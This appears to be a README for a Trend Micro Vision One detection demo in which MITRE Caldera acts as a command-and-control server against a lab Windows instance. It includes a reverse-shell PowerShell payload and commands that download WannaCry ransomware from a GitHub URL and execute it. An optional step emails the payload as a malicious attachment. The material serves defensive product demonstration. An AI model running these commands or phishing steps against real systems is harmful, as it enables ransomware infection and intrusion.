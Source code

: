 # Trend Micro Vision One Demo
---------------
__Requirements:

Windows/Mac/Linux OS
- AWS Account
- RDP/SSH Client
- Google Chrome or Mozilla Firefox


--------------------------------
__Prepaing the Demo Environment:

- Deploy the Cloud Formation Template (Make sure you are using the us-west-1 region). The following information has to be provided:

-Stack name - Name of the stack you are creating (example XDR-Demo)

-KeyName - KeyPar to be used when creating the EC2 Instances

-Platform - Select the appropriate platform (VisionOne, C1WS or ApexOne). Based on your selection, the following information has be provided

--PlatformURL - If you selected ApexOne or VisionOne, add the AgentInstallationURL (ApexOne Agent Installer or VisionOne Basecamp)

--TenantID and Token - If you selected C1WS, you have to get the TennantID and Token to be used installing and activating the agent. You can get this information using the C1WS > Deployment Scripts

--YourName - Just add your name. It will help to differentiate the components used in your demo, from the other users components.


-------------------------------
__Testing the demo environment:

After the CFT deployment is finished, you need to access the Windows Instance using RDP. You can get the credentials following the procedure described here https://docs.aws.amazon.com/AWSEC2/latest/WindowsGuide/connecting_to_windows_instance.html

After connecting to your RDP Session, make sure you can access the Caldera Management Console (http://linux-ip). username/password - admin/admin)

Also, you must make sure the Windows Instance is registered in your VisionOne/ApexOne/C1WS Management Console. Also, make sure the EDR feature is enabled (This will require a specific policy -for ApexOne or C1WS- or the EDR feature to be enabled manually, in case you are using VisionOne).

Using the VisionOne Portal, you must make sure that you have created a Secure Access Rule to automatically isolate devices with a (persistent) Risk Level of 60 or Higher (once matched).


--------------------------------
__What to expect from this demo:

This demo script was created to demonstrate the following use case:

+ Attacker trying to get the control of an Windows Instance

+ Attacker is using Mitre Caldera as C&C Server

+ Using Mitre Caldera, the Attacker will generate one malicious payload (powershell). This malicious payload will generate a reverse connection between the Windows Instance and the C&C Server.

+ The Attacker, using the Mitre Caldera, will use the tools available on Mitre Caldera to start checking some conditions and extracting sensitive data from the Windows Computer

+ The Trend Micro XDR agent is monitoring all the actions happening to the Windows Computer. The Risk Level of this device is increasing and it is becoming of of the riskiest devices of this demo environment.

+ The attacker will finish the attack encrypting the Windows Device, to make the impact of this attack even bigger.

+ Because of the policies in place, once the device' risk level reaches 60, the Windows Device will be automatically isolated.


--------------
__How to demo:

1- Open the RDP Session and show the basecamp components running on background;

2- Open the VisionOne Dashboard, and show the Actual Risk Level of this Windows Computer;

3- Update the Caldera.ps1 file that you can find on the Windows Instance. You just need to replace the CHANGE-ME string with the Linux IP Address

4- Execute the Caldera.ps1 script on the Windows Instance

5- After you execute the PS script on the Windows Instance, you will find a new Client connected to the Mitre Caldera Portal (You can find it on Navigate > Agents menu)

6- Now selecte the Navigate > Operations menu. We will use this option to start the operation following that Demo Script described previously on this page.

7- Select the New Operation (name it as DemoXDR)

8- Select the option Manual Command > Select your Agent > Run the command "Hostname". You will notice that after 1 minute +- the status of this request will become green. That means the command was executed successfuly. You can check the output clicking on the "star" icon, in the right side of the command you executed.

9- Now select the option named "Potential Links". Using this option you can search through the Mitre Techniques, and test them as you believe will generate the best impact (based on the objectives you have for this demo).

10- The following Mitre Techniques can help you to increase the risk level of the Windows Machine quickly, so if you want, this could be the best path to follow and have the Automated Response actions triggered.

10.1- T1113 (Screen Capture) (You can add other techniques / demonstrating different use cases)

11- Check the VisionOne Portal, wait for the new logs (+-5 minutes) and look to the Risk Level of the Windows Instance. The number is increasing, right?

12- Check now the Observed Attack Techniques and the Workbenches. You will also find many detections! Its a good moment to show to your customer how to investigate and find what was detected or not by VisionOne.

13- After you showed all the information detected by VisionOne, it's time to drop the Ransomware file to the Windows Machine, and make sure the ransomware was executed successfuly.

13.1- To do that, select the Navigate > Operations. Create a new Operation named Ransomware.

13.2- Select the "Manual Command" Option, Select your target, then select the PS> interpreter.

13.3- Run the following commands "Invoke-WebRequest -Uri https://github.com/limiteci/WannaCry/raw/main/WannaCry.EXE -OutFile wcry.exe"

14.4- After the first command was successfuly executed, run the next command "Start-Process wcry.exe"

15- If you check the Windows Instance a few seconds later, you will find the machine is encrypted. In a 5 minutes period of time, if the Secure Access Rules you've created is enabled, you should lost the RDP Access to your Windows Instance. That means the VisionOne was able to detect the changes on the Risk Level, and then followed with the automated isolation for any devices with risk level >=60.

16- You can check the detection logs and actions using the VisionOne Portal. You can go through the Device Risk Level, Workbenches, Observed Attack Techniques and Response Management menus, which will highlight all the detections and actions takes due to this new high risk computer detected during this demo.



-------
Optional (in case you want to demonstrate it in conjunction with CAS)

4- Access the following website https://ps2exe.azurewebsites.net/ and generate an executable file using the powershell script you've copied in the previous step

4.1- Send an email with the malicious attachment to the target user


